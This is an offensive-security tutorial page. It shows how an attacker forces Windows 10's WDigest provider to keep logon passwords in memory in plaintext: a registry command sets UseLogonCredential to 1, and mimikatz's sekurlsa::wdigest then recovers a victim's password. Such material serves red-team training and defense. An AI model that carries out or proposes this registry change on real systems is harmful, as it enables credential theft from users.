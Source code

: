 # Forcing WDigest to Store Credentials in Plaintext

As part of WDigest authentication provider, Windows versions up to 8 and 2012 used to store logon credentials in memory in plaintext by default, which is no longer the case with newer  Windows versions. 

It is still possible, however, to force WDigest to store secrets in plaintext.

## Execution

Let's first make sure that wdigest is not storing credentials in plaintext on our target machine running Windows 10:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sekurlsa::wdigest
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note the password field is null:

![](../../.gitbook/assets/mimikatz-2.2.0-x64-oe.eo-5_13_2019-10_42_39-pm.png)

Now as an attacker, we can modify the following registry key to force the WDigest to store credentials in plaintext next time someone logs on to the target system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/mimikatz-2.2.0-x64-oe.eo-5_13_2019-10_44_54-pm.png)

Say, now the victim on the target system spawned another shell:

{% code-tabs %}
{% code-tabs-item title="victim@local" %}
```csharp
runas /user:mantvydas powershell
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Running mimikatz for wdigest credentials now reveals the plaintext password of the victim user `mantvydas`:

![](../../.gitbook/assets/wdigestdemo.gif)

## References

{% embed url="https://p16.praetorian.com/blog/mitigating-mimikatz-wdigest-cleartext-credential-theft" %}



